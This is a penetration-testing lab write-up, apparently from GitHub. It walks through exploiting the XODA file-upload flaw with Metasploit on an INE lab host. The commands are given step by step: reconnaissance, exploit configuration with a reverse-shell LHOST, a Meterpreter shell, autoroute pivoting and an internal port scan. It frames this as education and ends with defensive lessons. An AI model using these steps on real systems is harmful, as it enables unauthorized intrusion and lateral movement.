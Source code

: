 # INE Lab - Exploiting XODA File Upload and Pivoting to Internal Network

![Metasploit](https://img.shields.io/badge/Metasploit-6.0-red) ![Nmap](https://img.shields.io/badge/Nmap-7.90-green)

## 📌 Objective
Exploit the **XODA File Upload** vulnerability on `demo1.ine.local` to:
- Gain initial access via RCE (Remote Code Execution)
- Enumerate internal network services
- Demonstrate pivoting to a secondary target

---

*Conducted in a controlled lab environment. No production systems were affected.*

## 🔍 Methodology

## 1. <span style="color:#e67e22">🌐 Accessibility Verification</span> 🏓
```bash
ping -c 5 demo1.ine.local
```
Host responded to pings, confirming accessibility

![](Screenshots/initial_ping.png)

*Figure 1: Active host (ICMP response)*

## 2. <span style="color:#e67e22">🛡️ Initial Nmap Scan</span> 🔍

```bash
nmap demo1.ine.local
```

Port 80/HTTP open

![](Screenshots/basic_nmap_scan.png)

*Figure 2: Nmap scan showing open port 80*

## 3. <span style="color:#e67e22">🕵️ Web Service Analysis with cURL</span> 🌐

```bash
curl demo1.ine.local
```

Identified XODA instance (web file manager)

![](Screenshots/curl_host_1.png)

*Figure 3: HTML page revealing XODA*

## 4. <span style="color:#e67e22">💥 Exploitation with Metasploit</span> 🎯

### <span style="color:#9b59b6">🔧 Prerequisites</span>

```bash
/etc/init.d/postgresql start    # Start Metasploit's PostgreSQL for session logging
----------------------------------------------------------------------------------------------
msfconsole                     # Launch Metasploit framework
----------------------------------------------------------------------------------------------
db_status                      # Verify database connection status
```

### <span style="color:#9b59b6">🔎 Exploit Search</span>

```bash
search xoda_file_upload        # Search for XODA-related modules
---------------------------------------------------------------------------------------------
use exploit/unix/webapp/xoda_file_upload  # Select specific exploit
```

![](Screenshots/xoda_options_default.png)

*Figure 4: Searching for XODA exploit.*

### <span style="color:#e74c3c">⚙️ Required Configuration</span>

```bash
set RHOSTS demo1.ine.local     # Set target (Remote HOST)
---------------------------------------------------------------------------------------------
set TARGETURI /                # Specify XODA base path (typically root)
---------------------------------------------------------------------------------------------
set LHOST [ATTACKER_IP]        # Configure local IP for reverse connection
---------------------------------------------------------------------------------------------
exploit                        # Execute exploit
```

![](Screenshots/exploit_options_values.png)

*Figure 5: Setting exploit option values*

### <span style="color:#3498db">Additional Exploitation Notes</span>
PostgreSQL: Required for storing session data and scan results

⚠️ RHOSTS vs LHOST:

RHOSTS: Attack target

LHOST: Your machine (for reverse shells)

TARGETURI: Many web exploits require path adjustment

Verification: Always use show options before execution to confirm parameters

<span style="color:#2ecc71">✅ Expected Result</span>:

Meterpreter session opened with web service privileges.

![](Screenshots/run_exploit.png)

*Figure 6: Exploit sent successfully. Meterpreter session initiated.*

## 5. <span style="color:#e67e22">Post-Exploitation</span> 🕵️
<span style="color:#f1c40f">🐚 Interactive Shell</span>

```bash
shell                         # Start basic shell on target (usually non-interactive)
---------------------------------------------------------------------------------------------
/bin/bash -i                  # Force interactive shell
---------------------------------------------------------------------------------------------
ifconfig                      # List target's network interfaces
```

![](Screenshots/meterpreter_shell_ifconfig.png)

*Figure 7: Shell used to access ifconfig*

### <span style="color:#9b59b6">🗺️ Internal Network Mapping</span>

```bash
run autoroute -s 192.140.124.2 # Create internal route via Meterpreter
                               # '-s' = (subnet): Defines target network for route
---------------------------------------------------------------------------------------------
background                    # Background current session
```

![](Screenshots/meterpreter_autoroute.png)

*Figure 8: Data reception route to attacker established*

### <span style="color:#e74c3c">🔍 Internal Port Scanning</span>

```bash
use auxiliary/scanner/portscan/tcp  # Load TCP scan module:
                                   # - More stealthy (slower than Nmap)
                                   # - Native to Metasploit
---------------------------------------------------------------------------------------------
set RHOSTS 192.140.124.3      # Set internal target (from ifconfig)
---------------------------------------------------------------------------------------------
set PORTS 1-65535             # Scan all TCP ports
```

![](Screenshots/portscan_options_values.png)

*Figure 9: Finding and setting portscan options*

### <span style="color:#2ecc71">✅ Result</span>

3 open ports detected:

Port 21/FTP

Port 22/SSH

Port 80/HTTP

![](Screenshots/portscan_results.png)

*Figure 10: Open ports successfully discovered*

### <span style="color:#1abc9c">🎯 Final Notes:
This lab demonstrated how web application vulnerabilities (XODA) can serve as initial vectors for compromising internal networks. The controlled environment allowed testing pivoting techniques without real risk, highlighting the importance of:

Patch management

Network segmentation

Log analysis

</span>

### Disclaimer

This report documents activities performed *exclusively* in a controlled lab environment with:

All machines/targets part of dedicated educational infrastructure

No confidential data or production systems accessed or compromised

Deliberately configured vulnerabilities for educational purposes

All tools used in compliance with lab policies

### Ethics & Compliance:
Demonstrated techniques must only be applied in authorized environments. Unauthorized reproduction on real systems constitutes legal violation.